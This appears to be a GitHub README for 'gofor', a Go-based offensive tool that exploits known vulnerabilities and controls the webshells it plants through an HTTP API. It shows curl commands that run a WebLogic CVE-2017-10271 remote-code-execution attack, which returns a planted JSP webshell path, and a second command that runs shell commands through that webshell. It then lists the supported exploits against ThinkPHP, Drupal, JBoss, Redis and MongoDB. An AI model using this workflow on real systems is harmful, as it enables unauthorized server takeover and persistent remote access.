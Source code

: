 # gofor
一款集漏洞探测、攻击，Session会话，蜜罐识别等功能于一身的软件，基于go-micro微服务框架并对外提供统一HTTP API网关接口服务

## HTTP API Gateway
```shell
./api-srv
```

## Service Install(Optional)
**Exploit**
```
./srv-exploit
```
**Webshell**
```webshell
./srv-webshell
```

# Example
[*] CVE-2017-10271 Weblogic RCE 攻击例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://x.x.x.x:7001","cve":"CVE-2017-10271"}' http://127.0.0.1:8888/exploit/ExploitServiceExt/ExploitWithAttack
```
`{"cve":"CVE-2017-10271","tunnel":"192.168.27.129:38533/wls-wsat/ant.jsp"}`

[*] php webshell调用例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://192.168.27.129:38533/wls-wsat/ant.jsp","language":"jsp","cmd":"pwd"}' http://127.0.0.1:8888/webshell/WebshellServiceExt/RunCmdWithOutput
```
`{"output":"/root/Oracle/Middleware/user_projects/domains/base_domain"}`


# 当前支持漏洞列表
| id | 漏洞名 |
|--|--|
| VUL-2021-04271  | Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability |
| VUL-2021-04272  | ThinkPHP5 5.0.23 Remote Code Execution Vulnerability |
| CVE-2017-10271  | Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞 |
| VUL-2021-05081  | Redis Unauthorized Vulnerability 漏洞 |
| CVE-2018-7600   | Drupal Drupalgeddon 2 Remote Code Execution Vulnerability |
| CVE-2017-12149  | JBoss 5.x/6.x 反序列化漏洞 |
| VUL-2021-05091  | MongoDB Unauthorized Vulnerability 漏洞 |
